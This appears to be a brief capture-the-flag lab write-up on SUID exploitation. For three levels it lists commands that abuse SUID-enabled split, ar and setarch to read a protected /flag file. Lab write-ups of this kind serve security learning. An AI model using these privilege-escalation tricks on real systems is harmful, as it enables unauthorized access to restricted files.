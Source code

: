 # Lab 2

## SUID Exploitation

* Level 16

split /flag

cat xaa


* Level 21 

ar r inter /flag

cat inter

* Level 30 

setarch --uname-2.6 cat /flag
